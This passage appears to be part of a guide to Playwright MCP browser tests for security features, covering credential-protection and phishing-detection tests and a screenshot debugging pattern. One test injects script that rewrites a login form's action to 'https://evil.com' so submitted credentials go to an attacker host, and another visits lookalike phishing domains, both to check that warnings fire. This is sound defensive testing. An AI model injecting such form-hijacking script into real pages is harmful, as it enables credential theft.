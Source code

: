 ### 14. Credential Protection Test
```javascript
// Fill credentials
await mcp__playwright__browser_fill_form({
  fields: [
    { name: "Username", type: "textbox", ref: "input[name='user']", value: "test" },
    { name: "Password", type: "textbox", ref: "input[name='pass']", value: "pass" }
  ]
});

// Modify form to cross-origin
await mcp__playwright__browser_evaluate({
  function: "() => { document.querySelector('form').action = 'https://evil.com'; }"
});

// Submit and check protection
await mcp__playwright__browser_click({
  element: "Submit",
  ref: "button[type='submit']"
});

const snapshot = await mcp__playwright__browser_snapshot({});
assert(snapshot.includes("Security Warning"), "Protection not triggered");
```

### 15. Phishing Detection Test
```javascript
const phishingURLs = [
  "https://paypal-secure.com",
  "https://google-login.xyz"
];

for (const url of phishingURLs) {
  await mcp__playwright__browser_navigate({ url });
  await mcp__playwright__browser_wait_for({ time: 2 });

  const snapshot = await mcp__playwright__browser_snapshot({});
  assert(
    snapshot.includes("Phishing") || snapshot.includes("Warning"),
    `Phishing not detected for ${url}`
  );
}
```

## Debugging Patterns

### 16. Progressive Screenshots
```javascript
let step = 0;

try {
  await action1();
  await mcp__playwright__browser_take_screenshot({
    filename: `step-${++step}.png`
  });

  await action2();
  await mcp__playwright__browser_take_screenshot({
    filename: `step-${++step}.png`
  });

  await action3();
  await mcp__playwright__browser_take_screenshot({
```